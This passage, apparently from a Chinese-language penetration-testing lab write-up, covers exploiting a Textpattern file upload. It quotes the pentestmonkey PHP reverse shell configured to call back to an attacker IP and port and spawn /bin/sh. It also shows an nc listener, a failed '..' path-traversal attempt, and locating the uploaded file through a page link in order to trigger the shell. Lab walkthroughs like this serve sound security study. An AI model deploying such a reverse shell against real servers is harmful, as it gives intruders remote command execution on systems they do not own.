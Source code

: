 ![image](https://hackmd.io/_uploads/H197Pi9nJx.png)

#### 4.3 撰寫 Reverse shell
使用現成 [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 寫好的 reverse shell
```
┌──(chw㉿CHW)-[~/Desktop/Tool_upload]
└─$ cat chw_revshell.php
<?php

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.45.221';  // CHANGE THIS
$port = 8888;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();
...
             
┌──(chw㉿CHW)-[~/Desktop/Tool_upload]
└─$ nc -nvlp 8888                       
listening on [any] 8888 ...

```
#### 4.4 上傳並利用
![image](https://hackmd.io/_uploads/SkwIwjq3yg.png)
filename 會檔掉 `..`，無法塞到 `/var/www/`
![image](https://hackmd.io/_uploads/HJ1rknq3kx.png)
> 失敗

結果在 HTML tag 的地方可以直接看到路徑\
![image](https://hackmd.io/_uploads/rJ45k29hyx.png)
> 塞了一堆 🚮🚮🚮
> > `<a href="/textpattern/index.php?s=file_download&#38;id=7">chw_revshell_finla.php</a>`

直接瀏覽 http://192.168.171.219/textpattern/files/
點選上傳的 reverse shell\
![image](https://hackmd.io/_uploads/rJ8Hm293kx.png)
